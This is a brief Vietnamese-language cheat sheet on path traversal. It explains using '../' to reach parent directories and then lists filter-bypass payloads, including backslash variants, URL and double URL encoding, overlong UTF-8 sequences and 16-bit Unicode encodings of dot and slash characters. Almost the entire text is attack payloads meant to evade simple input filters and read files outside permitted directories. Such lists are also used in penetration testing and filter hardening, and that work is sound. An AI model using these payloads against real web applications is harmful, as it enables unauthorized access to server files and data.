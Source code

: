 ## Basic exploitation ##
Sử dụng chuỗi ký tự `../` để truy cập thư mục cha. Một số cách bypass những filter đơn giản:
```
../
..\
..\/
.././
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```
16 bits Unicode encoding
```
. = %u002e
/ = %u2215
\ = %u2216
```
UTF-8 Unicode encoding
```
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```
Double URL encoding
```
. = %252e
/ = %252f
\ = %255c
```
